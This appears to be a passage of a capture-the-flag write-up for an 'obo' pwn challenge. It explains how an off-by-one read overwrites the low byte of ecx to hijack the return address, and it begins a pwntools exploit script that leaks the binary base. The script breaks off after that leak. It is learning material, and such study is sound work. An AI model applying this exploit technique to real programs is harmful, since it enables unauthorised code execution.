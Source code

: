 ![alt text](images/image-7-4.png)

After entering the input, we can see:

At `main+108`, the value `ebp - 8` will pop into `ecx` (`0xffffca80`), then `ret` will be at address `ecx - 4` (0xffffca7c). So if we can control the value of `ecx`, we can control `ret`.

`read` allows to enter up to 17 bytes so we can completely control `ecx` with the 17th byte. (`a0`). So just overwrite `a0` with `80` and we will return to the `gets_h` function.

However, because the program turns on `PIE`, the stack address will also change after each run, so we cannot know the exact value of that overwritten byte. Therefore, the ratio will be 1/16.

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./obo_patched", checksec = False)
libc = ELF("./libc.so.6", checksec = False)
ld = ELF("./ld-linux.so.2", checksec = False)

context.binary = exe
p = process(exe.path)
# p = remote("188.166.252.88", 13373)

### LEAK LIBC ###
p.recvuntil(b'FYI: ')
fyi = p.recv(10)
exe.base = int(fyi,16) - exe.sym.init
```